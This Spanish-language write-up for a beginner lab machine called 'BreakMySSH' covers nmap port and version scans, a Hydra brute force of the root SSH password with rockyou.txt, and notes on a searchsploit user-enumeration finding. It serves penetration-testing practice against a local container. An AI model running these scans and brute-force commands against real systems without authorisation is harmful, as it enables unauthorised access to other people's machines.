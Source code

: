 # 🛡️ Máquina: BreakMySSH  
**Dificultad:** Muy Fácil  

## 📌 Descripción  
El propósito de esta máquina es poner a prueba habilidades básicas de enumeración de servicios, fuerza bruta por SSH y posibles caminos hacia la escalada de privilegios a través del análisis del sistema.

---

## ⚙️ Despliegue de la Máquina  

Primero descargamos el archivo `.zip` de la máquina y lo descomprimimos con:

```bash
unzip breakmyssh.zip
```

Luego desplegamos la máquina con el script proporcionado:

```bash
sudo bash auto_deploy.sh breakmyssh.tar
```

![Despliegue de la máquina](/BreakMySSH/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad  

Verificamos que la máquina esté activa mediante un `ping` a su dirección IP (172.17.0.2):

```bash
ping -c4 172.17.0.2
```

![Ping a la máquina](/BreakMySSH/Imagenes/Ping.jpeg)

---

## 🔎 Escaneo de Puertos con Nmap  

Realizamos un escaneo de todos los puertos para descubrir cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

**Explicación de opciones:**
- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Muestra solo los puertos abiertos.
- `-sS`: Realiza un escaneo SYN.
- `--min-rate 5000`: Aumenta la velocidad de escaneo.
- `-Pn`: Omite la detección de host.
- `-oG`: Guarda la salida en formato grepeable.

![Resultado del escaneo de puertos](/BreakMySSH/Imagenes/Puertos.jpeg)

---

## 📂 Extracción de Puertos  

Utilicé un script personalizado `extractPorts` para extraer rápidamente la IP y los puertos abiertos del archivo generado:

```bash
extractPorts allPorts.txt
```

---

## 🔍 Detección de Servicios y Versiones  

Con el puerto 22 identificado como abierto, ejecutamos un escaneo más específico para detectar versiones y posibles scripts predeterminados:

```bash
nmap -sC -sV -p 22 172.17.0.2 -oN target.txt
```

**Explicación de opciones:**
- `-sC`: Usa scripts por defecto de Nmap.
- `-sV`: Detecta versiones de servicios.
- `-p 22`: Escanea solo el puerto 22 (SSH).
- `-oN`: Guarda la salida en un archivo legible.

![Detección de versiones](/BreakMySSH/Imagenes/Servicios.jpeg)

---

## 🗝️ Ataque de Fuerza Bruta con Hydra  

Dado que solo está disponible el puerto SSH (22) y el usuario `root`, intentamos acceder mediante fuerza bruta con `hydra` usando el diccionario `rockyou.txt`:

```bash
sudo hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

**Hydra** es una herramienta popular para ataques de diccionario contra múltiples protocolos, incluido SSH.

![Ataque con Hydra](/BreakMySSH/Imagenes/Hydra.jpeg)

---

## 🔐 Acceso SSH Exitoso  

Una vez encontrada la contraseña del usuario `root`, accedemos mediante:

```bash
ssh root@172.17.0.2
```

![Acceso SSH](/BreakMySSH/Imagenes/SSH.jpeg)

---

## 🧠 Notas Adicionales  

- Usé la herramienta `searchsploit` para investigar la versión del servicio SSH. Encontré una vulnerabilidad relacionada con la **enumeración de usuarios**.
- En el directorio `/home` se encuentra otro usuario, lo que sugiere que podríamos explotar esta vulnerabilidad para enumerar usuarios válidos.
- Una vez identificado ese segundo usuario, sería posible realizar otro ataque de fuerza bruta con `hydra` y así acceder a la máquina bajo ese perfil.
- Este tipo de escenario es ideal para practicar escaladas de privilegios locales una vez que se tiene acceso como usuario no privilegiado.
